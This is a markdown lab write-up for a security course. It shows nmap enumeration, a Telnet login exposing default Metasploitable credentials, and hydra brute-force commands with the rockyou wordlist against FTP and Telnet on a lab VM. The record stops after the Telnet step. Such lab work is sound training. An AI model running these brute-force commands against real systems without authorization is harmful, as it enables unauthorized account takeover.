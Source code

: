 # Lab 1: Cryptographic Attacks: Brute Force and Traffic Analysis on Network Protocols

## 🎯 Objective
The goal of this lab is to explore the vulnerabilities of common network protocols (FTP, TELNET, SSH, HTTP) by performing brute force attacks to recover passwords and then using those credentials to sniff network traffic. Will also analyze the security of these protocols and propose mitigation strategies.

---

## 🛠️ Requirement

- Kali Linux       (Attacker)
- Metasploitable 2 (Target machine)
- Wordlist          (rockyou.txt with "msfadmin")
- Nmap
- Hydra
---

## 🔍 Lab Tasks

### 1. Enumerate the Vulnerable VM to Discover Usernames

#### ✅ Objective:
- Identify potential usernames for brute force attacks.
- Document the usernames found.

#### 🔧 Steps Taken:

- Performed a port scan using Nmap:
  ```
  nmap -sV -p 21,23,22,80 [target-ip]
  ```
  ![image](nmap-scan-open-port-on-target-machine.png)

- Connected manually to Telnet to observe any information:
  ```
  telnet [target-ip]
  ```
  ![image](telnet-to-target-machine.png)
  > Here we got the username and password: ```msfadmin:msfadmin```. Bear in mind, we often do not get the credentials as easily as this.


---
### 2.  Perform Brute Force Attacks
#### 2.1. FTP, TELNET, and SSH

#### ✅ Objective:
- Use Hydra perform brute force attacks against the following protocols:

- FTP
  ```
  hydra -L rockyou.txt -P rockyou.txt ftp://[target-ip]
  ```
  ![image](hydra-bruteforce-ftp.png)
  
- TELNET
  ```
  hydra -L rockyou.txt -P rockyou.txt telnet://[target-ip]
  ```
  ![image](hydra-bruteforce-telnet.png)



